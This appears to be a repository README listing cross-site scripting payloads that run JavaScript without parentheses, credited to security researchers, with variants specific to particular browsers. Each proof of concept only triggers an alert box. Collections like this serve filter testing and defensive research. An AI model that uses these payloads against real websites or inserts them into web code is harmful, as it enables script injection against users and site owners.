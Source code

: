 # XSS Without parentheses () 


### This repo contains XSS payloads that doesn't require parentheses, collected from tweets, blogs...
### All the POC's are alert box with number 23

---
    alert`23`
---
    window.name="javascript:alert(23)";
    location="xss.html";
xss.html

    location=name

---

[terjanq](https://twitter.com/terjanq)

    window.name="alert(23)";
    location="xss.html";
xss.html

    Function`a${name}```


---
[Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=alert;throw 23;

---
Only Chrome [Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=eval;throw'=alert\x2823\x29';
    
---
[Garethheyes](https://twitter.com/garethheyes/status/1126526480614416395)

    {onerror=alert}throw 23

----
[terjanq](https://twitter.com/terjanq/status/1126614389371621378)

xss_redir.html
```
window.name='1;var Uncaught=1;alert(23)';
location='xss_short.html';
```
xss_short.html
```
{onerror=eval}throw/0/+name
```

---

[terjanq](https://twitter.com/terjanq/status/1126796552960389120)

    throw/a/,Uncaught=1,g=alert,a=g+0,onerror=eval,/1/g+a[14]+[23,331,337]+a[15]

---
Only Firefox [Garethheyes](https://twitter.com/garethheyes/status/1126922526796468224)
          
    {onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:'',message:'alert\x2823\x29'}
---

[ycam](https://twitter.com/ycam_asafety/status/1126976315666706433)

```
example.com/xss#*/;alert(23);
```
```
throw/**/onerror=Uncaught=eval,e={lineNumber:1,columnNumber:1,fileName:'',message:'/*'+location.hash},typeof/**/InstallTrigger!='undefined'?e:e.message
```
---
[cgvwzq](https://twitter.com/cgvwzq/status/1126994744268267527)

[https://demo.vwzq.net/lol.html](https://demo.vwzq.net/lol.html)

```
<script/id=Uncaught>

// chrome + firefox

throw[onerror=eval][e=[x=/-alert(1)/.source]]=0[e.lineNumber=e.columnNumber=e.fileName=e.message=x]=e

</script>

<script>

// firefox

onhashchange=setTimeout,HashChangeEvent.prototype[Symbol.toStringTag]=/=alert(2)/.source,location.hash=1

</script>

<script>

// chrome + firefox

Array.prototype[Symbol.hasInstance]=eval,'alert(3)'instanceof[]

</script>

<script>

// chrome

[onerror=eval][TypeError.prototype.name='=/']['/-alert(4)//']

</script>

<script>

// chrome

onerror=eval,ReferenceError.prototype.name='=alert(5)//',lol

</script>
```

---
[Renwa](https://twitter.com/RenwaX23/status/1126999364763832325)

```
document.body.innerText="\u003cimg src=x onerror=alert\u002823\u0029\u003e";
document.body.innerHTML=document.body.innerText;
```
    
---
[Renwa](https://twitter.com/RenwaX23)

```
document.body.innerHTML="&ltimg src=x onerror=alert&lpar;23&rpar;&gt"
document.body.innerHTML=document.body.innerText
```
---
If the page is frameable [Renwa](https://twitter.com/RenwaX23/status/1125387416175546368)

```
data:text/html,<iframe name="<svg/onload=alert(23)>" src="http://example.com/xss?document.body.innerHTML=name">
```
---
[user00239123](https://stackoverflow.com/a/40899496/9216926)

    document.location='javascript:alert%2823%29'

---
Only IE [matt](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/#comment-2157)
   
    example.com/xss#<img src=x onerror=alert(23)>
    
    document.body.innerHTML=location.hash;
---
[Brutelogic](https://twitter.com/brutelogic/status/585944389589065728)
    
    <svg/onload='alert&#40 23 &#41'> 

---
[Blakils](https://twitter.com/Blaklis_/status/1125663871056928769)

    location=/javascript:alert%2823%29/.source;
---
[Nicocanicolas](https://twitter.com/nicocanicolas/status/1125399154560307205)

    http://example.com/?test=&lt;img/src=&quot;x&quot;/onerror=alert(23)&gt;
    
    document.body.innerHTML=location.search;
    document.body.innerHTML=document.body.innerText;

---


___
### Anything: @[RenwaX23](https://twitter.com/RenwaX23)
